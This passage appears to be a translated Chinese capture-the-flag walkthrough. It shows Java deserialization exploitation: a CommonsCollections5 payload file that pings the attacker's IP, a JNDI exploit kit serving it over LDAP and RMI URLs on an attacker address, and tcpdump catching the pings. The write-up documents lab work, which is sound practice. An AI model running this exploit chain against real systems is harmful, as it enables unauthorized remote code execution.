 忽略警告，因为这很正常。上面创建了一个名为 pencer.ser 的文件，该文件一旦在目标上反序列化，就会尝试 ping 我的 Kali IP 四次。对于这个盒子，我使用了 CommonsCollections5，你可能需要尝试几个不同的，直到你得到一个可以在另一个盒子上工作的。接下来启动 JNDI 漏洞利用工具包，告诉它有效负载是我的 pencer.ser 文件，并使用我的 Kali tun0 IP 在端口 389 上启动 LDAP 服务器:

![](img/94252d52d23a5a2852fbd85b4b92b4c4.png)

JNDI 漏洞利用工具包服务器 pencer.ser 有效负载

如您所见，根据我们正在处理的 JDK 版本，不同的环境有不同的目标。你可能需要反复试验才能找到适合你的另一个盒子。

在那个列表中，这是我使用的一个:

```
Target environment(Build in JDK 1.5 whose trustURLCodebase is true):
rmi://10.10.14.12:1099/u3rmld
ldap://10.10.14.12:389/u3rmld
```

接下来，在另一个终端中启动 tcpdump 侦听 ICMP 数据包，以捕获来自机器的 ping:

```
┌──(root💀kali)-[~]
└─# tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```
